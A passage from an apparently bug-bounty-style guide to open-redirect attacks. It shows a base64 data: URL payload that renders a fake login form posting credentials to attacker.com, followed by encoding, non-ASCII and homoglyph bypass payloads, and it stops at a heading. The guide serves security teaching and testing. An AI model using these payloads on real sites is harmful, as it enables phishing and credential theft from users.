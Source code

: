 `https://example.com/login?redirect=https://example.com/dashboard`

An attacker can manipulate it to:

`https://example.com/login?redirect=data:text/html;base64,PGh0bWw+PGhlYWQ+PHRpdGxlPkV4YW1wbGUgRGFzaGJvYXJkPC90aXRsZT48L2hlYWQ+PGJvZHk+PGgxPlBsZWFzZSBsb2cgaW4gYWdhaW48L2gxPjxmb3JtIGFjdGlvbj0iaHR0cHM6Ly9hdHRhY2tlci5jb20vbG9naW4iIG1ldGhvZD0icG9zdCI+PHBsYWJlbD5Vc2VybmFtZTo8L3BsYWJlbD48aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0idXNlcm5hbWUiPjwvaW5wdXQ+PHBsYWJlbD5QYXNzd29yZDo8L3BsYWJlbD48aW5wdXQgdHlwZT0icGFzc3dvcmQiIG5hbWU9InBhc3N3b3JkIj48L2lucHV0PjxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJMb2dpbiI+PC9pbnB1dD48L2Zvcm0+PC9ib2R5PjwvaHRtbD4=`

This data URL contains a base64-encoded HTML page that mimics the example dashboard and asks the user to log in again. The form action points to `attacker.com/login`, where the attacker can capture the user’s credentials. The user may not notice the difference between the real and fake dashboard, and may enter their credentials again.

## Exploiting URL Decoding

URLs transmitted over the internet are constrained to ASCII characters, necessitating URL encoding for characters outside this range. URL encoding involves converting a character into a percentage sign followed by two hex digits, like `%2f` for a slash character.

- Validators and browsers decode URL-encoded characters before processing URLs.
- Mismatches in decoding between validators and browsers can be exploited for open redirects.

### Double Encoding

- Double or triple URL-encode specific special characters in payloads.
- For example, URL-encode a slash as `%2f`: `https://example.com%2f@attacker.com`.
- Double URL-encode the slash: `https://example.com%252f@attacker.com`.
- Triple URL-encode the slash: `https://example.com%25252f@attacker.com`.

### Non-ASCII Characters

- Exploit inconsistencies in non-ASCII character decoding by validators and browsers.
- Example with `%ff` representing ÿ, a non-ASCII character:
  - Validator: example.com domain, attacker.comÿ subdomain.
  - Browser might decode non-ASCII as '?', navigating to attacker.com: `https://attacker.com?.example.com`.
- Browsers often attempt to find similar characters:
  - Validator: example.com domain with `%E2%95%B1` symbol.
  - Browser converts symbol to a slash, making attacker.com domain: `https://attacker.com/.example.com`.

### Unicode and Cyrillic Characters

- Unicode provides codes for world languages.
- Utilize Unicode characters for look-alike symbols, bypassing filters.
- Cyrillic character set is useful due to its ASCII-like characters.

## Steps to Find Open Redirects

To identify open redirects, follow these steps:
